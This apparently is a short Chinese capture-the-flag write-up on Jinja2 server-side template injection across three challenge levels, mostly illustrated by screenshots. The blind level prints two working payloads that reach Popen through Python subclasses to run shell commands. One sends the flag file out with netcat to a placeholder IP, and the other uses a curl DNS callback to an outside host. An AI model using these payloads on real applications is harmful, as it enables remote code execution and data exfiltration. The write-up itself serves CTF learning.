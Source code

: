 Level1-no waf
首先编写脚本寻找可以RCE的内建函数
![no waf 1](/hello_ctf/images/ssti1.png)
![no waf 2](/hello_ctf/images/ssti2.png)
使用寻找到的下标索引进行注入
![no waf 3](/hello_ctf/images/ssti3.png)

Level2-['\{\{'] 
过滤了{{,那就使用{% %}
![['\{\{'] 1](/hello_ctf/images/ssti4.png)
![['\{\{'] 2](/hello_ctf/images/ssti5.png)

Level3-no waf and bind
盲注,首先需要知道可以利用的类的名字,使用模板语法更加方便
{% for i in ''.__class__.__mro__[-1].__subclasses__() %}
{% if i.__name__ == 'Popen' %}
{{ i.__init__.__globals__['os'].popen('cat flag|nc IP 8080').read() }}
{% endif %}
{% endfor %}
or
{% for i in ''.__class__.__mro__[-1].__subclasses__() %}
{% if i.__name__=='Popen' %}
{{ i.__init__.__globals__['os'].popen('curl `cat flag`.b5orv752.eyes.sh').read()}}
{% endif %}
{% endfor %}

